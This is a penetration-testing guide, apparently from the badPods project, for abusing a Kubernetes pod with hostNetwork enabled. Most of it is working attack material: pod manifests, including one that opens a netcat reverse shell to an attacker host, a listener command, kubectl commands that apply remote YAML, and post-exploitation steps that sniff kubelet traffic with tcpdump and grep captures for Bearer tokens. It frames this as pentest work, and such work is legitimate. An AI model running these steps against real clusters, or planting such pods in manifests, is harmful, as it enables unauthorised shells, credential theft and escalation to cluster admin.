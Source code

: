 ## You can create a pod with only hostNetwork

If you only have `hostNetwork=true`, you can't get RCE on the host directly, but if your cross your fingers you might still find a path to cluster admin. 
The important things here are: 
* You can sniff traffic on any of the host's network interfaces, and maybe find some kubernetes tokens or application specific passwords, keys, etc. to other services in the cluster.  
* You can communicate with network services on the host that are only listening on localhost/loopback. Services you would not be able to touch without `hostNetowrk=true`

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostnetwork
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  ```
[pod-hostnetwork.yaml](pod-hostnetwork.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostnetwork.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostnetwork/pod-hostnetwork.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostnetwork -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostnetwork-revshell
  labels:
    app: pentest
spec:
  hostNetwork: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostnetwork-revshell
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name```
[pod-hostnetwork-revshell.yaml](pod-hostnetwork-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostnetwork/pod-hostnetwork-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post Exploitation 

#### Install tcpdump and sniff traffic 
**Note:** If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump

```bash
apt update && apt install tcpdump 
```
You now have a few options for next steps: 

See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

If the read port is open, run `tcpdump`, recording the output to a file for a few minutes.

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```
Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`. 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt token. If you are really lucky, that token might be associated with a service account in `kube-system`.


#### Another path: Investigate local services
```bash
curl https://localhost:1234/metrics
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.
